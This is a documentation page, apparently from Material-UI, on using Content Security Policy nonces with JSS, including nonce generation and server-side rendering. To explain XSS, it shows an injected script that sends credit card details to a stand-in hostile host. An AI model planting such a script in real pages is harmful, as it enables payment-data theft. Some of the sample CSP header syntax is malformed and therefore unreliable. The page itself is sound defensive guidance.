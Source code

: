 # Content Security Policy (CSP)

Starting with JSS version 9.6.0, Material-UI supports Content Security Policy headers.

## What is CSP and why is it useful?

Basically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://website.example` the CSP header `default-src: 'self';` will allow all assets that are located at `https://website.example/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnrivbility would allow the attacker to execute anything. Although, with a secure CSP header, the browser will not load this script.

You can read more about CSP [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add a server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.


A CSP nonce is a Base 64 encoded string. You can generate one like this:

```es6
import uuidv4 from "uuid/v4";

const nonce = new Buffer(uuidv4()).toString("base64");
```

It is very important you use UUID version 4, as it generates an **unpredictable** string. You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```es6
header('Content-Security-Policy').set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

Then you must pass this nonce to JSS so it can set it accordingly. The client side gets the nonce from a header.

```jsx
<meta property="csp-nonce" content={nonce} />
```

If you are using Server Side Rendering, you should additionally pass the nonce in the `<style>` tag on the server.

```jsx
<style 
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: pageContext.sheetsRegistry.toString() }} 
/>
```